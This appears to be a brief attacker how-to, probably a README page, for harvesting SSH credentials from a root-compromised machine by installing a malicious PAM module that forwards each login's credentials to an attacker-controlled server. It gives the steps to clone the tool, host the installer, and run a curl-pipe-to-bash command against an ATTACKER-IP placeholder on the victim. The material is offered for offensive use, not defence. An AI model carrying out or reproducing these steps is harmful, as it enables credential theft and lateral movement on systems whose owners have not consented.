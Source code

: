 # Stealing SSH Credentials

You have compromised a remote machine and get root and youu would like to collect as many credentials as possible to move laterally.

We can do steal ssh credentials thoud `a malicious PAM module`

Every SSH connection attempt will be forwarded to a server under your control, accompanied by the credentials used for this connection attempts

**On attacking machine**

```sh
sudo git clone https://github.com/mthbernarder/sshLooter.git
```

Host and edit `install.sh` and `looter.py` pointing the url variable to a server under your control, that can log POST request.

```sh
python3 -m http.server 8000
```

**On the compromised machine:**

```
curl http://<ATTACKER-IP>:8000/install.sh | bash
```